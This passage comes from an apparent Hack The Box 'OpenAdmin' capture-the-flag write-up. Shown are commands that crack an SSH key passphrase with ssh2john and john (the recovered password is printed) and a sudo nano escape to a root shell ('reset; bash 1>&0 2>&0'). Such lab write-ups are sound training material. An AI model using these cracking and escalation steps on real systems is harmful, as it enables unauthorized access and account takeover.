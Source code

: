 We got a `TCP` service running locally on port `52846`. Lets post our data on `127.0.0.1:52846/main.php` usign `curl`:

{% include image.html path="documentation/hack-the-box/openadmin/priv_key.jpg" path-detail="documentation/hack-the-box/openadmin/priv_key.jpg" alt="OpenAdmin" %}

Oh! we got `ssh` private key lets extract it using `ssh2john`:

{% highlight console %}
root@kali:~$ ssh2john rsa_priv.key > joanna.priv
{% endhighlight %}

Now, lets crack it using `john`:

{% highlight console %}
root@kali:~$ john --wordlist=/usr/share/wordlists/rockyou.txt joanna.priv 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (rsa_priv.key)
1g 0:00:00:12 DONE (2020-02-03 01:20) 0.07855g/s 1126Kp/s 1126Kc/s 1126KC/s *7¡Vamos!
Session completed
{% endhighlight %}

And now we have our password `bloodninjas`, lets `ssh` with `joanna` and own user:

{% include image.html path="documentation/hack-the-box/openadmin/joanna.jpg" path-detail="documentation/hack-the-box/openadmin/joanna.jpg" alt="OpenAdmin" %}

## 5. Own Root

Lets find what else we can do to own `root`, after deep diving for any important things related to `joanna`I found `/etc/sudoers.d/joanna` owned by `root`. Sudoers files just contains rights for who can access what in the system.

{% highlight console %}
joanna@openadmin:~$ cat /etc/sudoers.d/joanna
joanna ALL=(ALL) NOPASSWD:/bin/nano /opt/priv
{% endhighlight %}

This line above just tell the system give all `sudo` privileges to user `joanna` with no password to execute `nano` on `/opt/priv`. We can take advantage of that by execute commands from `/bin/nano` bypassing all local security restrictions. See [GTFOBins](https://gtfobins.github.io/).

Now we can run `sudo nano /opt/priv`, and press `ctr + R` to read a file then `ctr + X` to execute root commands and type:

{% highlight bash %}
reset; bash 1>&0 2>&0;
{% endhighlight %}

And finally we owned `root`:

{% include image.html path="documentation/hack-the-box/openadmin/root.jpg" path-detail="documentation/hack-the-box/openadmin/root.jpg" alt="OpenAdmin" %}
